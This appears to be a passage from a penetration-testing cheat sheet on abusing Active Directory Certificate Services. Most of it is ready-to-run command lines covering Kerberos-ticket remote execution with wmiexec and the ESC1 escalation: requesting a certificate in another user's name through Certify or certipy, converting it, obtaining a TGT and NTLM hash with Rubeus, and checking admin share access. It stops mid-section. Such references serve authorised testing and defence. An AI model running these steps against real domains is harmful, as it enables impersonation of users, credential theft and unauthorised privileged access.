 ````

export KRB5CCNAME=<PATH TO CCACHE>
```

#### Execute commands
```
python3 wmiexec.py -k -no-pass <FQDN COMPUTER ACCOUNT>
```

### Privilege Escalation
### ESC1 Request SAN of other user
- Requirements
	- Extended Key Usage: `Smart Card Logon` (`1.3.6.1.4.1.311.20.2.2`), `PKINIT authentication` (`1.3.6.1.5.2.3.4`) or `Client Authentication` (`1.3.6.1.5.5.7.3.2`) for AD Authentication.
	- Certificate-Name-Flag: `ENROLLEE_SUPPLIES_SUBJECT` attribute is enabled: allows the certificate requestor to specify any subjectAltName (SAN) to request a certificate as any user 
	- User with Enrollment Rights
- CBA patch breaks this attack if there is no match with the SID of the target user. Use `/sidextension` or `-extensionsid` to fix this.
### Windows
#### Get SID of user 
```
Get-DomainUser <SAMACCOUNTNAME> | Select-Object samaccountname, objectsid
```

#### Request cert and abuse SAN
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME> /altname:<USER> /sidextension:<TARGET OBJECT SID> /domain:<FQDN>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

### Linux
#### Get SID of user 
```
pywerview get-netuser -u <USER> -p <PASSWORD --username <USER> --domain <FQDN DOMAIN> --dc-ip <DC IP> --attributes "objectsid"
```

#### Request cert and abuse SAN
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> -upn <SAMACCOUNTNAME>@<FQDN DOMAIN> -extensionsid <OBJECTSID> -out 'esc1' -debug
```

#### Unpac the hash
````